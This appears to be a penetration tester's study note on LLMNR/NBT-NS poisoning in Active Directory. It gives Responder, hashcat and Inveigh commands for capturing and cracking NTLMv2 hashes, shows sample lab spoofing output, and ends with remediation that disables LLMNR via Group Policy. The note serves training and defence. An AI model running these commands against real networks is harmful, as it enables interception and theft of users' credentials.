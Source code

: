 ```yaml
---
date: 2025-06-08
tags:
  - ActiveDirectory
  - Technique
  - LLMNR
  - NBT-NS
  - Poisoning
---
```



```table-of-contents
```



# LLMNR & NBT-NS
- Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
- Link-Local Multicast Name Resolution (LLMNR)
	- `UDP 5355` natively
	- If a machine attempts to resolve a host but DNS resolution fails, the machine will try to ask all other machines on the local network for the correct host address via LLMNR. 
- NetBIOS Name Service (NBT-NS)
	- If LLMNR fails, the NBT-NS will be used. NBT-NS identifies systems on a local network by their NetBIOS name. 
	- `UDP 137` natively

## Weak Point
- When LLMNR/NBT-NS are used for name resolution, ==ANY host on the network can reply==. 
- This is where we come in with `Responder` to poison these requests. 
- With network access, we can spoof an authoritative name resolution source ( in this case, a host that's supposed to belong in the network segment ) in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host.


## Tools
|                                                       |                                                                                                     |
| ----------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| [Responder](https://github.com/lgandx/Responder)      | Responder is a purpose-built tool to poison LLMNR, NBT-NS, and MDNS, with many different functions. |
| [Inveigh](https://github.com/Kevin-Robertson/Inveigh) | Inveigh is a cross-platform MITM platform that can be used for spoofing and poisoning attacks.      |
| [Metasploit](https://www.metasploit.com/)             | Metasploit has several built-in scanners and spoofing modules made to deal with poisoning attacks.  |



# From Linux Attack Host
1. Start Responder, and then run other enumeration tasks against the network to see what hashes responder picks up

```bash
sudo responder -I ens224 
```

2. Pass these hashes to `Hashcat` for cracking

```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt 
```



# From Windows Attack Host

### Inveigh (Old Version)
1. Use `Inveigh`. Import it onto PowerShell

```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```

2. Start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file.

```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```


### InveighZero (New Version)
- Newer version in C#. Executable needs to be compiled first.

1. Start capturing hashes by running Inveigh

```powershell-session
PS C:\htb> .\Inveigh.exe
```

1. Inveigh allows you to use an interactive console by hitting `ESC`

```powershell-session
<SNIP>

[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61310
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61311
C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

2. Enter `GET NTLMV2UNIQUE` for unique hashes
3. Enter `GET NTLMV2USERNAMES` for usernames collected



# Remediation
Mitre ATT&CK lists this technique as [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.

To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS.

> We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
